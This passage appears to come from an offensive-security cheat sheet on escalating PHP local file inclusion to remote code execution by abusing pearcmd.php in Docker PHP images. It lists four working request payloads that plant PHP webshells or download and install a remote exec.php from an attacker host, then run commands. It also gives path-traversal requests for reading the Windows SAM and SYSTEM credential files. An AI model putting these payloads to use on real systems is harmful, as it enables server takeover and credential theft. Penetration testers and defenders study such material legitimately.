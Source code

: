 PEAR is a framework and distribution system for reusable PHP components. By default `pearcmd.php` is installed in every Docker PHP image from [hub.docker.com](https://hub.docker.com/_/php) in `/usr/local/lib/php/pearcmd.php`. 

The file `pearcmd.php` uses `$_SERVER['argv']` to get its arguments. The directive `register_argc_argv` must be set to `On` in PHP configuration (`php.ini`) for this attack to work.

```ini
register_argc_argv = On
```

There are this ways to exploit it.

* **Method 1**: config create
  ```ps1
  /vuln.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=eval($_GET['cmd'])?>+/tmp/exec.php
  /vuln.php?file=/tmp/exec.php&cmd=phpinfo();die();
  ```

* **Method 2**: man_dir
  ```ps1
  /vuln.php?file=/usr/local/lib/php/pearcmd.php&+-c+/tmp/exec.php+-d+man_dir=<?echo(system($_GET['c']));?>+-s+
  /vuln.php?file=/tmp/exec.php&c=id
  ```
  The created configuration file contains the webshell.
  ```php
  #PEAR_Config 0.9
  a:2:{s:10:"__channels";a:2:{s:12:"pecl.php.net";a:0:{}s:5:"__uri";a:0:{}}s:7:"man_dir";s:29:"<?echo(system($_GET['c']));?>";}
  ```

* **Method 3**: download (need external network connection).
  ```ps1
  /vuln.php?file=/usr/local/lib/php/pearcmd.php&+download+http://<ip>:<port>/exec.php
  /vuln.php?file=exec.php&c=id
  ```

* **Method 4**: install (need external network connection). Notice that `exec.php` locates at `/tmp/pear/download/exec.php`.
  ```ps1
  /vuln.php?file=/usr/local/lib/php/pearcmd.php&+install+http://<ip>:<port>/exec.php
  /vuln.php?file=/tmp/pear/download/exec.php&c=id
  ```


## LFI to RCE via credentials files

This method require high privileges inside the application in order to read the sensitive files.


### Windows version

First extract `sam` and `system` files.

```powershell
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```
